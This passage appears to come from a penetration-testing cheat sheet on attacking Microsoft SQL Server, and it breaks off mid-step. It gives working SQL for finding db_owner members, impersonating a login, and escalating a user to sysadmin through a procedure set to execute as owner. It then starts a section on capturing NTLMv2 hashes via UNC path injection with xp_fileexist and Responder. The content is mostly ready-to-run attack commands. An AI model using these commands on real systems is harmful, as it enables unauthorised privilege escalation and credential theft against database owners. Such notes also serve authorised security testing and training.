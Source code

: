 Query DB users with db\_owner role

```sql
USE webshop;
SELECT b.name, c.name
FROM webshop.sys.database_role_members a
JOIN webshop.sys.database_principals b ON a.role_principal_id = b.principal_id
LEFT JOIN webshop.sys.database_principals c ON a.member_principal_id = c.principal_id;

# one-liner
USE webshop; SELECT b.name, c.name FROM webshop.sys.database_role_members a JOIN webshop.sys.database_principals b ON a.role_principal_id = b.principal_id LEFT JOIN webshop.sys.database_principals c ON a.member_principal_id = c.principal_id;
```

Impersonate as ws\_user and and check for db\_owner role

```sql
USE webshop;
EXECUTE AS LOGIN = 'ws_user';
SELECT IS_ROLEMEMBER('db_owner');
```

Assign user in this case ws\_dev sysadmin role

```sql
CREATE PROCEDURE sp_privesc
WITH EXECUTE AS OWNER
AS
	EXEC sp_addsrvrolemember 'ws_dev', 'sysadmin'
GO

EXECUTE sp_privesc;
DROP PROCEDURE sp_privesc;
```

### <mark style="color:yellow;">UNC Path Injection</mark>

We can capture NTLMv2 hashes from a user the MSSQL server is running as. Default is `NT SERVICE\mssqlserver`. We can use undocumented extended stored procedures:

* `xp_fileexist`: Checks if file exists
* `xp_dirtree`: Returns a directory tree
* `xp_subdirs`: Returns a list of sub-directories

Example if hosts file exists

```sql
EXEC xp_fileexist 'C:\Windows\System32\drivers\etc\hosts';
```

Setup Responder

```shell-session
sudo responder -I tun0 -v
```

Then access
